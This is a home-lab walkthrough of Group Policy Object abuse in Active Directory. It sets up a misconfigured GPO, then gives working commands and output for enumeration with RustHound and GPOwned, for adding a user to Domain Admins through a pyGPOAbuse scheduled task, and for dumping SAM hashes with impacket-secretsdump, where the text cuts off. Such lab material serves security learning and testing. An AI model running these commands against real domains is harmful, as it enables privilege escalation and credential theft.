









# 🔐 GPO Abuse

## What is a GPO?

A **Group Policy Object** is a set of rules in Windows AD used by Domain Admins to:

- Manage settings on computers and users (e.g., password policies, startup scripts, firewall rules).
- Push software or configurations to all machines in a domain.

These policies are linked to **OUs (Organizational Units)** in AD and apply automatically.

### Example of GPO

Suppose the admin wants to remove the Recycle Bin icon from the desktop. By enabling the corresponding Group Policy, the desktop icon will be removed automatically.

## What is GPO Abuse? 

**GPO abuse** refers to **abusing Group Policy Objects (GPOs)** in a Windows Active Directory (AD) environment to gain elevated privileges, maintain persistence, or move laterally across systems.

---


##  Setting Up Misconfigurations Exploit GPO 

### 1. Create a New Organizational Unit (OU)

Open **Active Directory Users and Computers**:

- Right-click on your domain
- Select **New** → **Organizational Unit**




---

### 2. Create a New GPO Named "Bad GPO"

Open **Group Policy Management** and:

- Right-click on the domain or the OU
- Select **Create a GPO in this domain, and Link it here...**
- Name it **Bad GPO**




---

### 3. Delegate Permissions to a User

Go to the **Delegation** tab in your newly created GPO:

- Click **Add**
- Choose the user you want to delegate (e.g., `jack`)




Then:

- Click **OK**
- Set the user's permission to **Edit settings**



---

### 4. Link GPO to Target OU

Finally, move or link the **Bad GPO** to the **AI_Dep** OU.




##  Enumeration

To begin enumeration, we use **RustHound**:

```bash
rusthound -d furious.local -u jack@furious.local -p 'complex1@' -f $IP -i $IP -z -o rusthound
````


After analyzing the output in **BloodHound**, we discover that the user `jack` has **GenericWrite** permissions on the **Bad GPO**.



This permission allows us to **modify the GPO**, which we can use to **add ourselves to the Domain Admins group**.

---

###  GPO Abuse Utilities

To exploit GPO misconfigurations, we can use any of the following tools:

* [pyGPOAbuse (Python)](https://github.com/Hackndo/pyGPOAbuse)
* [GPOwned (Python)](https://github.com/X-C3LL/GPOwned)


##  GPOwned vs pyGPOAbuse

> **Note:** We use **GPOwned** due to its wide range of features. However, for executing a simple command such as adding ourselves to the **Domain Admins group**, **pyGPOAbuse** is more straightforward.

---

###  Listing GPOs Related to the User

To list GPOs related to the user:

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgpo
```
```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/GPOwned]
└─$ python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgpo
                GPO Helper - @TheXC3LL
                Modifications by - @Fabrizzio53


[*] Connecting to LDAP service at 192.168.129.140
[*] Requesting GPOs info from LDAP

[+] Name: {31B2F340-016D-11D2-945F-00C04FB984F9}
        [-] displayName: Default Domain Policy
        [-] gPCFileSysPath: \\furious.local\sysvol\furious.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 3
        [-] Verbose: 

[+] Name: {6AC1786C-016F-11D2-945F-00C04fB984F9}
        [-] displayName: Default Domain Controllers Policy
        [-] gPCFileSysPath: \\furious.local\sysvol\furious.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 5
        [-] Verbose: 

[+] Name: {7FB465D4-071E-4C58-9EBB-133086F5BF87}
        [-] displayName: Bad Gpo
        [-] gPCFileSysPath: \\furious.local\SysVol\furious.local\Policies\{7FB465D4-071E-4C58-9EBB-133086F5BF87}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 0
        [-] Verbose: 

[^] Have a nice day!
```

###  Listing GPOs Related to the Machine

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcmachine -listgpo
```

###  View GPOs Linked to a Specific OU

To view GPOs linked to a specific OU (`AI_Dep` in this case):

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgplink  -ou AI_Dep
```


##  Abusing GPO with pyGPOAbuse

To abuse the vulnerable GPO and add `jack` to the **Domain Admins** group:


```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/pyGPOAbuse]
└─$ python3 pygpoabuse.py 'furious.local'/'jack':'complex1@' -gpo-id "7FB465D4-071E-4C58-9EBB-133086F5BF87" -command '/c net group "Domain Admins" jack /add /domain'
SUCCESS:root:ScheduledTask TASK_e12bc4ec created!
[+] ScheduledTask TASK_e12bc4ec created!

```
###  Optional: Dumping Hashes with SecretsDump

Once we have Domain Admin privileges, we can dump all user hashes:

```
impacket-secretsdump furious.local/jack:'complex1@'@192.168.129.140
```

```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/pyGPOAbuse]
└─$ impacket-secretsdump furious.local/jack:'complex1@'@192.168.129.140
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x40dc74d52a81d056f488d800be5a2f7c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f1c3f58541c936fd550482ec578f102e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The acc
```


